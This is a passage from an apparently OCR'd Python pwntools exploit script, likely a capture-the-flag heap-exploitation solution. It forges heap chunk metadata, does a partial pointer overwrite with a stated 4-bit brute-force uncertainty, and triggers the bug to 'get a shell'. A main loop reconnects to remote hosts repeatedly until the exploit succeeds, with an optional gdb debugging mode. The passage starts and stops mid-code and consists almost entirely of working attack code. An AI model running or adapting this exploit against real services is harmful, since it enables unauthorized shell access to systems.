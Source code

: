 ```python  
     cd("../")  
     rm("./test3/2")  
     cd("./test3/")  
     echo("6",p64(0)+p64(0x10 + stderralloc_s|1))  
     echo("2",p16(LSBs_call_rax))                      # HAVE 4-BIT UNCERTAINITY !!!  
     cd("../test6")  
     echo("8","\r"*stderralloc_s)  
     print("[ ] morecore_s: "+hex(morecore_s))

     # invoke and get a shell!!!  
     c.recvuntil("command> ")  
     c.sendline("echo")  
     c.recvuntil("arg> ")  
     c.sendline("\r"*0x50)  
     c.recvuntil("?> ")  
     c.sendline("Y")  
     c.recvuntil("> ")  
     c.sendline("9")  
     print("[!] Got shell???")

     return True  
 except EOFError:  
     print("[-] EOFError")  
     c.close()  
     return False

## main ##############################################

# check success rate by 'python2 ./exploit.py r bench'  
# solvable-check by python2 ./exploit.py r

if __name__ == "__main__":  
   global c  
  
   if len(sys.argv)>1:  
     if sys.argv[1][0]=="d":  
       cmd = """  
         set follow-fork-mode parent  
       """  
       c = gdb.debug(FILENAME,cmd)

     elif sys.argv[1][0]=="r" or sys.argv[1][0]=="v":  
       try_count = 0  
       total_try = 0  
       total_success = 0  
       start_time = time.time()  
       init_time = time.time()  
       while True:  
           lap_time = time.time()  
           try_count += 1  
           print("**** {} st try ****".format(hex(try_count)))  
           if sys.argv[1][0] == "r":  
               c = remote(rhp1["host"],rhp1["port"])  
           else:  
               c = remote(rhp3["host"],rhp3["port"])  
           if exploit()==False:  
             print("----- {} st try FAILED: {} sec\n".format(hex(try_count),time.time()-lap_time))  
             continue  
           else:  
               print("----- {} st try SUCCESS: {} sec (total)".format(hex(try_count),time.time()-start_time))  
               if len(sys.argv) > 2 :      # check success rate  
```